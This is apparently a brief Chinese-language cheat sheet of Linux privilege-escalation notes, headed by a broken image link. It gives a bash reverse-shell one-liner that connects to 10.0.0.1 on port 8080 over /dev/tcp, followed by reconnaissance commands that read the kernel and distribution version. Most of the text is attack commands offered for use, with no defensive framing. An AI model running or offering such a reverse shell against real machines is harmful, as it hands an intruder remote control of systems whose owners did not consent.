 ### GUN Linux 提权笔记

##### Shell反弹
```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```


##### 查看系统版本

`uname -a`

`cat /etc/*-release`

`cat /etc/issue`
